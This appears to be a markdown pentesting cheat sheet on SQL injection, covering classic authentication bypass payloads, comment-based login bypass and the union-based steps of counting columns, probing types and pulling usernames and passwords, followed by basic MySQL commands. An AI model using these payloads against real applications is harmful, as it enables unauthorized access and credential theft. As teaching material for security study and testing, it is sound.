 **Cheat sheets:**
- [MySQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 
- [Oracle SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
- [PostgreSQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

# Classic SQL Injection
This is the most common type of SQL injection, where an attacker injects malicious SQL code into an application's input fields, typically through user inputs like forms or URL parameters.

```bash
' OR '1'='1'
```
If the application does not properly sanitize input, the SQL query might look like this:
```bash
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'password';
```

Also, you can use **#** . The **#** character is used for commenting. So, if the line responsible for the login is: 
````bash
SELECT * FROM users WHERE user=\$user AND password=\$password
```` 
When we login on the page and enter user=Kill-9 and password=123, the executed statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9' AND password=$123
````
 If we input:
 ````bash
 user=Kill-9'#
````
The statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9'# AND password=$123
```` 
The commented part is not processed, granting us access.


# Union-Based SQL Injection
In a union-based SQL injection, the attacker leverages the UNION SQL operator to combine results from the original query with results from their injected query.
An attacker might inject SQL code like this:
```bash
' UNION SELECT null, username, password FROM users --
```

### 1. Determine the number of columns
To carry out a successful `UNION` attack, the attacker must first determine the number of columns in the original query. There are two main methods for identifying this:

- **Using `ORDER BY`**: By incrementally increasing the column number in `ORDER BY` clauses, the attacker can find the number of columns by identifying when an error occurs. For example:
```bash
' ORDER BY 1 -- (no error, at least 1 column)
' ORDER BY 2 -- (no error, at least 2 columns)
' ORDER BY N -- (error 500, N exceeds the column count)
```
Once a certain number causes an error, the attacker deduces the original query has fewer columns than this value.

- **Using `UNION SELECT NULL`**: Another approach is to inject `UNION SELECT NULL` with different counts of `NULL` values, matching the number of columns until there’s no error. For example:
```bash
' UNION SELECT NULL -- (error, as more than one column is likely present)

' UNION SELECT NULL, NULL -- (no error, meaning the query likely has 2 columns)
```

### 2. Identifying Data Types for Columns 

After determining the number of columns, attackers need to identify the data type for each column because the `UNION` operator only works when column data types match across the original and injected query. This is achieved by using the `UNION SELECT` injection to test for data types one by one. For instance, they can replace each `NULL` with specific data type values:

- **String Data Type**: Inject a string (e.g., `'a'`) in a `NULL` placeholder to check if a column accepts text.
- **Numeric Data Type**: Use numbers in `NULL` positions to determine columns that accept integers.
- **Date Data Type**: Insert a date value (e.g., `'2023-01-01'`) to test if a column accepts dates.

For example:
```bash
' UNION SELECT 'a', NULL, NULL -- (no error means the first column is likely a text type)
' UNION SELECT NULL, 123, NULL -- (no error means the second column is likely an integer)
```

### 3. Extracting Sensitive Data

Once the attacker knows the number and type of columns, they can extract sensitive data by injecting a query that retrieves this data from other tables within the database:
```bash
' UNION SELECT NULL, username, password FROM users --
```

In this example, the attacker retrieves `username` and `password` columns from the `users` table. They may also utilize functions like `database()` to retrieve database names or `version()` to obtain the database software version.

# MySQL 

- Prints out the databases we can access:
````bash
SHOW databases;
````  

- Set to use the database named {database_name}:
````bash
USE {database_name};
````  

- Prints out the available tables inside the current database:

````bash
SHOW tables;
````  
- Prints out all the data from the table {table_name}:
````bash
SELECT * FROM {table_name};
````  


To connect:
````bash
mysql -h 10.129.42.201 -u root -p <password>
````



